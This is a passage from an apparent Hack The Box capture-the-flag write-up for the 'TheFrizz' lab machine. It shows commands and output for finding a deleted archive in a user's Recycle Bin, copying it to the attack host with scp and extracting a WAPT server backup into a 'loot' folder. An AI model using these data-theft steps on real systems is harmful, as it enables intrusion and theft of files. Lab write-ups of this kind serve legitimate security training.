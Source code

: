 ```
PS C:\Users\f.frizzle> whoami /user

USER INFORMATION
----------------

User Name       SID
=============== ==============================================
frizz\f.frizzle S-1-5-21-2386970044-1145388522-2932701813-1103
```

Some delete files for Fiona (notice the SID) is found in the Recycle Bin.

```
PS C:\Users\f.frizzle> gci 'C:\$RECYCLE.BIN\' -Force -Recurse

    Directory: C:\$RECYCLE.BIN

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d--hs          10/29/2024  7:31 AM                S-1-5-21-2386970044-1145388522-2932701813-1103

    Directory: C:\$RECYCLE.BIN\S-1-5-21-2386970044-1145388522-2932701813-1103

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a---          10/29/2024  7:31 AM            148 $IE2XMEG.7z
-a---          10/24/2024  9:16 PM       30416987 $RE2XMEG.7z
-a-hs          10/29/2024  7:31 AM            129 desktop.ini
```

`scp` is used to copy the larger 7zip archive to the attack host.

```
fcoomans@kali:~/htb/thefrizz$ scp -o GSSAPIAuthentication=yes f.frizzle@frizzdc.frizz.htb:'C:/$RECYCLE.BIN/S-1-5-21-2386970044-1145388522-2932701813-1103/$RE2XMEG.7z' .
$RE2XMEG.7z                                         100%   29MB   1.4MB/s   00:21
```

### 🧪 Exploitation

The file is extracted.

```
fcoomans@kali:~/htb/thefrizz$ mkdir loot

fcoomans@kali:~/htb/thefrizz$ mv \$RE2XMEG.7z loot

fcoomans@kali:~/htb/thefrizz$ cd loot

fcoomans@kali:~/htb/thefrizz/loot$ 7z x \$RE2XMEG.7z
```

It contains a `wapt` server backup.  

```
fcoomans@kali:~/htb/thefrizz/loot$ ls
'$RE2XMEG.7z'   wapt

fcoomans@kali:~/htb/thefrizz/loot$ cd wapt

fcoomans@kali:~/htb/thefrizz/loot/wapt$ ls
auth_module_ad.py  keyfinder.py  revision.txt             ssl                       wapt-enterprise.ico    waptmessage.exe       waptservice.exe       wgetwads64.exe
cache              keys          Scripts                  templates                 wapt-get.exe           waptpackage.py        wapt-signpackages.py
common.py          languages     setupdevhelpers.py       trusted_external_certs    wapt-get.exe.manifest  wapt.psproj           wapttftpserver
```